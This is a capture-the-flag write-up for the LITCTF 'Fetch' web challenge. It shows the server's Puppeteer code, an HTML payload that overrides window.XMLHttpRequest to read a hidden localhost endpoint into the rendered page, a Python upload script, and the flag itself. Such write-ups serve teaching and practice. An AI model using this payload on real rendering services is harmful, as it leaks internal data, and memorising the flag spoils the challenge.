

# **Fetch**
fetch me the flag at http://litctf.org:31770/

## **Description**
We are given a url and source code for the application. Inspecting the URL, we see primarily just text that seems to describe the fetch api. After a second however, there is a popup that says `Looks like you're getting somewhere!`.

The web source as well as the source code shows that there is an endpoint `/runHTML` which takes a file, loads it, then within the file context, calls `window.XMLHTTPRequest()` to fetch the flag string from a different non public endpoint. Finally it takes a screenshot and sends that back to us.

```js
const runHTMLFile = async (filePath) => {
  const browser = await puppeteer.launch();
  const page = await browser.newPage();
  await page.goto(`file:${filePath}`);

  await page.evaluate(() => {
    const req = new window.XMLHttpRequest();
    req.open("GET", "http://localhost:6969/" + randomString, false);
    req.send(null);
  });
  const screenshot = await page.screenshot({
    path: filePath.replace(".html", ".png"),
    fullPage: true,
    type: "png",
  });
  await browser.close();

        return filePath.replace(".html", ".png");
};
```

## **Solution**
We can take advantage of the function called and can overwrite `window.XMLHttpRequest` to instead read the content of the file and render it in the DOM. Here is the final `index.html` used.

```html
<script>
    class D {
        open(content, url) {
            const container = document.createElement('div');
            fetch(url).then((d) => d.text().then((d) => {
                container.innerText = d;
            }))
            document.body.appendChild(container);
        }
        send(...args) {
            ;
        }
    }
    window.XMLHttpRequest = D;
</script>
```

And can then send this file to the `runHTML` endpoint, write the output to a png file, and then view it.
```py
import requests
import os

multipart_form_data = {
    'file': ('asdf', open('index.html', 'rb'), 'text/html'),
}

response = requests.post('http://litctf.org:31770/runHTML', files=multipart_form_data)
with open('out.png', 'wb+') as f:
    f.write(response.content)

os.system('wslview out.png')
```



---
## **Flag**: LITCTF{wow_i_actually_love_the_fetch}
---
